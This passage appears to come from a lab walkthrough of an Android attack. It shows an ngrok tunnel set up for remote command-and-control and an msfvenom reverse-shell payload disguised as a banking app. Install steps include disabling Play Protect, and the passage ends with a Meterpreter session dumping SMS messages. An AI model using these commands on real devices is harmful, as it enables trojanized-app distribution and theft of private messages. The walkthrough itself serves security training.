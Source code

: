 ### ngrok Configuration

```bash
# Add authentication token
ngrok config add-authtoken redacted '(use your token)'

# Create TCP tunnel
ngrok tcp 4444
```

**ngrok Output:**
```
Forwarding: tcp://0.tcp.eu.ngrok.io:13799 -> localhost:4444
```

### Regenerate Payload for Remote C2

```bash
msfvenom -p android/meterpreter/reverse_tcp \
  LHOST=0.tcp.eu.ngrok.io \
  LPORT=13799 \
  -o mybank2.apk
```

Follow the same signing process and deploy:
```bash
adb push mybank2.apk /sdcard/Download/
```

---

## Phase 6: Exploitation & Post-Exploitation

### Installation on Target

On the Genymotion emulator:
1. Navigate to **Downloads** folder
2. Tap on `signed_mybank.apk`
3. Disable **Play Protect** (Settings → Google → Security → Play Protect)
4. Allow installation from unknown sources
5. Complete installation

### Meterpreter Session Established

```
[*] Sending stage (72424 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:33180)
```

### Post-Exploitation Commands Executed

#### 1. SMS Exfiltration
```bash
meterpreter > dump_sms
[*] Fetching 2 sms messages
[*] SMS messages saved to: sms_dump_20251004214305.txt
```
